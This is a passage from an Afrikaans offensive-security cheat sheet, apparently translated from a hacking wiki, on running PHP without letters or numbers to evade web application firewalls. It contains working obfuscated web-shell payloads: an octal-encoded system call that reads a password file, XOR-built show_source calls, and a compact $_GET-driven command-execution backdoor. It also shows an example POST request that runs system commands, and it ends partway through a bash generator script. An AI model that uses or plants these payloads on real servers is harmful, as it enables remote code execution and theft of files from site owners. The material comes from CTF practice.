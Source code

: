 {{#ref}}
php-rce-abusing-object-creation-new-usd_get-a-usd_get-b.md
{{#endref}}

## Voer PHP uit sonder letters

[https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/)

### Gebruik oktale
```php
$_="\163\171\163\164\145\155(\143\141\164\40\56\160\141\163\163\167\144)"; #system(cat .passwd);
```
### **XOR**
```php
$_=("%28"^"[").("%33"^"[").("%34"^"[").("%2c"^"[").("%04"^"[").("%28"^"[").("%34"^"[").("%2e"^"[").("%29"^"[").("%38"^"[").("%3e"^"["); #show_source
$__=("%0f"^"!").("%2f"^"_").("%3e"^"_").("%2c"^"_").("%2c"^"_").("%28"^"_").("%3b"^"_"); #.passwd
$___=$__; #Could be not needed inside eval
$_($___); #If ¢___ not needed then $_($__), show_source(.passwd)
```
### XOR maklik shell kode

Volgens [**hierdie skrywe** ](https://mgp25.com/ctf/Web-challenge/) is dit moontlik om 'n maklike shellkode op hierdie manier te genereer:
```php
$_="`{{{"^"?<>/"; // $_ = '_GET';
${$_}[_](${$_}[__]); // $_GET[_]($_GET[__]);

$_="`{{{"^"?<>/";${$_}[_](${$_}[__]); // $_ = '_GET'; $_GET[_]($_GET[__]);
```
So, as jy **arbitraire PHP kan uitvoer sonder nommers en letters** kan jy 'n versoek soos die volgende stuur wat daardie payload misbruik om arbitraire PHP uit te voer:
```
POST: /action.php?_=system&__=cat+flag.php
Content-Type: application/x-www-form-urlencoded

comando=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);
```
Vir 'n meer diepgaande verduideliking, kyk na [https://ctf-wiki.org/web/php/php/#preg_match](https://ctf-wiki.org/web/php/php/#preg_match)

### XOR Shellcode (binne eval)
```bash
#!/bin/bash

if [[ -z $1 ]]; then
echo "USAGE: $0 CMD"
exit
fi

CMD=$1
CODE="\$_='\
```
